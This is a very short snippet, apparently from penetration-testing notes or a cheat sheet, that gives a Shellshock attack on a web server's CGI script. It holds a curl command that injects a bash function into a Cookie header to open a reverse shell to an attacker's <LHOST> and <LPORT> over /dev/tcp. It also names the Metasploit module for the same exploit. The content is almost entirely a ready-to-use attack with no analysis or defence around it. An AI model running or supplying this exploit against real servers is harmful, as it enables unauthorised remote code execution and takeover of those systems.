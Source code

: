 ```
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1' http://<RHOST>/cgi-bin/user.sh
```

Using a .cgi
```
use multi/http/apache_mod_cgi_bash_env_exec
```